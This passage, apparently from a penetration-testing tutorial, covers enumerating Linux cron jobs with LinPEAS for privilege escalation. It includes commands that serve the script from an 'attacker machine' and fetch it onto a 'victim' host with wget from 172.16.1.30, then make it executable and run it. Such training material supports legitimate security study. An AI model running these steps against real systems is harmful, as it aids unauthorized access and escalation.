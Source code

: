 However, it was important to show the manual steps before using tools so that we understand the output of our tools and what to look for.

> If you do not have a copy of LinPEAS, you can grab one **[here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**.

Generally when we run LinPEAS, we will run it without parameters to run ‘all checks’ and then comb over all of the output line by line, from top to bottom.

> A good trick when running the full scan is to redirect the output of PEAS to a file for quick parsing of common vulnerabilities and keywords using **grep**.

After grabbing a copy of LinPEAS, we need to transfer a copy onto the victim.

## Downloading LinPEAS onto the Victim

This can be done a number of ways, but for this example we will download it from a web-server that we quickly whip up on our attacker machine.

To start, we need to setup an HTTP server on our attacker machine from the directory where **linpeas.sh** is located.

```shell
python3 -m http.server 80
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/10/image-56.png)

Then, back on the victim machine, we can use the following commands to move to the **/tmp** directory, download LinPEAS, and then give it execute permissions.

```shell
cd /tmp
wget http://172.16.1.30/linpeas.sh
chmod 755 ./linpeas.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-427-1024x256.png)

## Executing LinPEAS and Finding All of the System Cron Jobs

With our tool all ready to use, we can just use the command **./linpeash.sh** and the script will execute.

Once it finishes running, we need to locate the **Cron jobs** sub-section, which can be found in the **Processes, Crons, Timers, Services and Sockets** section.

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-428.png)

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-429.png)

Here we can see that LinPEAS enumerated all of the same information about the cron jobs that we found manually (crontab + 4 cron directories).

> **anacron** is a computer program that performs periodic command scheduling, which is traditionally done by cron, but without assuming that the system is running continuously. Thus, it can be used to control the execution of daily, weekly, and monthly jobs
